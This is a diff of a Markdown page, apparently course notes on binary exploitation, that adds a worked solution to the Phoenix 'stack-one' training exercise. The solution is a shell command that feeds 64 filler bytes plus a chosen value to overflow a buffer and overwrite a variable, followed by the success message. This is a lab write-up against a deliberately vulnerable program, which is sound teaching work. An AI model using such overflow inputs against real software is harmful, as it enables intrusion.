

Before and after one commit to Anjalihere/CSOC_24, a Markdown page: Week_4 /binary_exploitation.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Week_4 /binary_exploitation.md
+++ b/Week_4 /binary_exploitation.md
@@ -109,6 +114,11 @@ int main(int argc, char **argv) {
 }
 ```
 
+```console
+user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c 'print "A"*64 + "\x62\x59\x6c\x49"')
+Welcome to phoenix/stack-one, brought to you by https://exploit.education
+Well done, you have successfully set changeme to the correct value
+```
 
 # Stack-Two
 > Stack Two takes a look at environment variables, and how they can be set.
````
Also changed, not shown: other parts of Week_4 /binary_exploitation.md (+21 -1 lines).
